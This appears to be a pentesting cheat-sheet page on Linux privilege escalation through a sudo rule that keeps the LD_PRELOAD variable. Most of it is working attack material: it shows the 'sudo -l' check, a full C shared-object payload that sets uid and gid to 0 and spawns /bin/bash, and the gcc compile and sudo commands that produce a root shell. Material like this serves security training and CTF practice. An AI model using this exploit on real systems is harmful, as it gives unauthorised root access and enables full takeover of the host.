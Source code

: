 ```yaml
---
title: Sudo Privilege Escalation by Overriding Shared Library
description: LD_PRELOAD might be vulnerable to privilege escalation (PrivEsc).
tags:
    - Privilege Escalation
refs:
date: 2023-09-13
draft: false
---
```


## LD_PRELOAD Overwriting

### Investigation

Check sudo commands.

```sh
sudo -l
```

The below is the output example.

```bash
env_keep+=LD_PRELOAD

(ALL : ALL) NOPASSWD: somecmd
```

If we find the sudo command keeps **LD_PRELOAD** environment, we can overwrite this variable to load our custome shared object and escalate the privileges.

### Exploitation

First off, create **exploit.c** under **/tmp** .

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

void inject()__attribute__((constructor));

void inject() {
	unsetenv("LD_PRELOAD");
	setuid(0);
	setgid(0);
	system("/bin/bash");
}
```

- The **"constructor"** attribute is a special type of function attribute in GCC. It tells the compiler to automatically call the function before the main function.

Now compile the c program to shared object.

```bash
# -fPIC: Generate Position Independent Code.
# -shared: Generate a shared library.
# -o: Output shared object.
gcc  -fPIC -shared -o exploit.so exploit.c
```

We can execute command with setting the shared library to **LD_PRELOAD** variable then spawn the root shell.

```bash
sudo LD_PRELOAD=/tmp/exploit.so somecmd
```
